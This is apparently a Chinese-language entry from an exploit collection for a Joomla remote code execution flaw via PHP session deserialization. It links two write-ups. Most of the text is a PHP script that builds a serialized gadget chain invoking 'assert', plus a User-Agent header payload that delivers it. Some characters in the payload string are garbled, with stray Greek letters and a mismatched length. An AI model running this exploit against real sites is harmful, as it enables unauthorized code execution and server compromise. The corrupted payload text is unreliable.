 # Joomla远程代码执行漏洞
## 分析
* [https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html)
* PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患[https://github.com/80vul/phpcodz/blob/master/research/pch-013.md](https://github.com/80vul/phpcodz/blob/master/research/pch-013.md)
## EXP
```php
<?php
//header("Content-Type: text/plain");
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
echo serialize($a); 
```
## POC
```
User-Agent: 123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"ρhιτhσπpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}ð
```
